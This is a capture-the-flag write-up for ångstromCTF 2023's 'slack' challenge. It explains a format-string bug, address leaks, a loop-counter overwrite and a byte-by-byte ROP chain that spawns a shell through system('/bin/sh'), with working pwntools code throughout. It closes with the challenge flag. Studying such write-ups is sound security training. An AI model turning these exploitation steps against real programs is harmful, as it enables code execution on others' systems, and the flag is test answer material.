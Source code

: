 # ångstromCTF 2023 - slack

![](images/slack.png)

You can download challenges here: [slack.zip](slack.zip)

# 1. Find bug

![](images/bug.png)

In IDA, we can see there is a **Format String** bug in the for loop. It allows us to input just 14 bytes and then print that format string for us. All the defences are up, too:

![](images/checksec.png)

# 2. Idea

Because Relro is Full so we cannot attack @got in this case. The first thing I want to do is leak stack and libc, then make the for loop unlimited because inputting just 14 bytes makes it hard to enter our payload. The idea is to change the var i to a negative number by changing highest byte of var i to 0x80 so it will look like `0x800000xx` and it passes the check leading to unlimited for loop.

With format string, we can input all bytes of payload one by one (inputting 14 bytes limited our choice) to create a simple rop and then change i back to a large positive number to break the for and make main return to our rop.

Summary:
- Stage 1: Leak stack & libc address
- Stage 1: Change i to negative number
- Stage 2: Input ROP chain
- Stage 3: Change i back to positive number

# 3. Exploit

### Stage 1: Leak stack & libc address

Leaking addresses is a simple task:

```python
payload = b'%21$p%25$p'
sla(b'Professional): ', payload)

p.recvuntil(b'You: ')
datas = p.recvline()[:-1].split(b'0x')
libc_leak = int(datas[1], 16)
libc.address = libc_leak - 0x29d90
stack_leak = int(datas[2], 16)
i_addr = stack_leak - 0x180
info("Libc leak: " + hex(libc_leak))
info("Libc base: " + hex(libc.address))
info("Stack leak: " + hex(stack_leak))
info("var i @: " + hex(i_addr))
```

I believe you can calculate libc base address and address of var i yourself.

### Stage 2: Change i to negative number

Now we have address of var i, we just need to change 2 bytes value of `a pointer which point to another stack` into address of var i. That pointer looks as the highlighted address below:

![](images/check-pointer.png)

So we will change value of that pointer but just 2 bytes, from 0xe1b3 to 2 bytes of var i + 3, which is 0xddd8+3 = 0xdddb (address of var i in the picture above is 0x007fffffffddd8 with 4 bytes in length):

```python
payload1 = f'%{(i_addr & 0xffff) + 3}c%25$hn'.encode()
payload1 = payload1.ljust(13, b'P')
```

Then, in the address 0x007fffffffdf58, we can see the address of var i is written on the stack:

![](images/after-write-address-of-i.png)

So in the second write, we will change that highest byte of var i to 0x80 to turn var i into a negative number:

```python
payload2 = f'%{0x80}c%55$hn'.encode()

sla(b'Professional): ', payload1 + payload2)
```

Here is after we set var i to negative number:

![](images/check-var-i-0x80.png)

Note that I send payload1 and payload2 at the same time because changing 2 byte will make payload length upto 13 bytes and fgets allows us just 13 bytes so we will concate 2 payload and send together so that the payload2 will automatically forward to the last fgets. After we succeed overwriting i, we now have ability to use **Format String** unlimited. 

### Stage 3: Input ROP chain

Before we write payload to stack, we need to build it first:

```python
pop_rdi = libc.address + 0x00000000001b9815
ret = pop_rdi + 1
rop_payload = flat(
	ret,
	pop_rdi, next(libc.search(b'/bin/sh')),
	libc.sym['system']
	)
```

Now, we will use the same format of previous stage to write all bytes of payload one by one:

```python
saved_rip_addr = stack_leak - 0x110
for i in range(len(rop_payload)):
	payload1 = f'%{(saved_rip_addr & 0xffff) + i}c%25$hn'.encode()
	payload1 = payload1.ljust(13, b'P')
	
	if rop_payload[i] == 0:
		payload2 = b'%55$hhn'
	else:
		payload2 = f'%{rop_payload[i]}c%55$hhn'.encode()
	sl(payload1 + payload2)
```

After that, we are ready for a return from main().

### Stage 4: Change i back to positive number

Again, with the same format, we will change the highest byte of var i from 0x80 to whatever number between 0 and 0x7f to make it the large positive number and make for loop break:

```python
# Change stack to i address
payload1 = f'%{(i_addr & 0xffff) + 3}c%25$hn'.encode()
payload1 = payload1.ljust(13, b'P')

# Change i
payload2 = f'%{0x1}c%55$hn'.encode()
sla(b'Professional): ', payload1 + payload2)
```

Before we end, there is one thing to note, it's the sendline function. Why don't I use sendlineafter but sendline? It's because the timeout of redpwn, just 20 seconds so if we wait until we receive the string and send, it would take a ton of time. So the best way is send continuously and it's safe because program use fgets(), not read().

Solve script: [solve.py](solve.py)

# 4. Get flag

![](images/get-flag.png)

Flag is `actf{succesfu1_onb0arding_f99454d9a2f42632}`
